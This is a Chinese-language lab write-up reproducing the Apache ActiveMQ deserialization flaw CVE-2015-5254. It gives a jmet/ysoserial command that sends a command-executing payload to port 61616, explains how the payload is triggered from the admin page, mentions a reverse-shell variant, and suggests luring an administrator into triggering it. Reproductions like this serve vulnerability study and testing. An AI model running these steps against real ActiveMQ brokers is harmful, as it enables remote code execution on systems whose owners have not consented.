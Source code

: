 # （CVE-2015-5254）ActiveMQ 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/ActiveMQ/CVE-2015-5254.html](http://book.iwonder.run/0day/ActiveMQ/CVE-2015-5254.html)

## 一、漏洞简介

Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。

## 二、漏洞影响

Apache ActiveMQ 5.13.0 之前的 5.x 版本

## 三、复现过程

漏洞利用过程如下：

1.  构造（可以使用 ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标 61616 端口
3.  访问 web 管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/ianxtianxt/jmet)进行漏洞利用。首先下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616 
```

![image](img/1080d0dbfcf7ddab85d8b07fc85fd546.png)

此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![image](img/ad02596929227152d01bcf2d5a237105.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success 已成功创建，说明漏洞利用成功：

![image](img/3a3ca50851e21e48e69ba2995908251e.png)

将命令替换成弹 shell 语句再利用：

![image](img/fe4278c36b435387f4102c54127a678b.png)

值得注意的是，通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

## 参考链接

> [https://vulhub.org/#/environments/activemq/CVE-2015-5254/](https://vulhub.org/#/environments/activemq/CVE-2015-5254/)


